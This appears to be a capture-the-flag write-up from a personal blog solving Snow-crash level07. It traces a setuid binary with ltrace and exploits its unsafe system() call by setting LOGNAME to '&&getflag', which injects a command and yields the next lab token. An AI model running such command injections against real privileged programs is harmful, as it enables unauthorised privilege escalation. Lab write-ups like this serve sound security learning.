 ```yaml
---
title:  "[Snow-crash] Level07"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git
toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
categories: 
   - ecole42
---
```


#### 1. The password of `Level07` is the token that got from `Level06`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level07 with the password we got from Level06 and try to put the command `ls`. We can see the file `Level07`. and try to execute.

```bash
level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ ./level07
level07
```
#### 3. Try to put `file` command
```bash
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```
It's a binary file. 

#### 4. So, let's use ltrace command to understand/to debug the behavior of this program

```bash
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                 = 2007
geteuid()                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                         = "level07"
asprintf(0xbffff6f4, 0x8048688, 0xbfffff2c, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                    = 0
+++ exited (status 0) +++
```
We can see the getenv("LOGNAME") = "level07"

```
level07@SnowCrash:~$ echo $LOGNAME
level07
```
#### 5. Try to do the small tests as below.

```
level07@SnowCrash:~$ export LOGNAME="HELLO_WORLD";
level07@SnowCrash:~$ ./level07
HELLO_WORLD
```

```
level07@SnowCrash:~$ export
declare -x HOME="/home/user/level07"
declare -x LANG="en_US.UTF-8"
declare -x LC_CTYPE="UTF-8"
declare -x LC_TERMINAL="iTerm2"
declare -x LC_TERMINAL_VERSION="3.4.23"
declare -x LESSCLOSE="/usr/bin/lesspipe %s %s"
declare -x LESSOPEN="| /usr/bin/lesspipe %s"
declare -x LOGNAME="HELLO_WORLD"
```
We can see the line `declare -x LOGNAME="HELLO_WORLD"`

#### 6. So then, we try to put getflag in the LOGNAME. 

```bash
level07@SnowCrash:~$ export LOGNAME="&&getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

#### 7. We got a token for level 08. 
```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```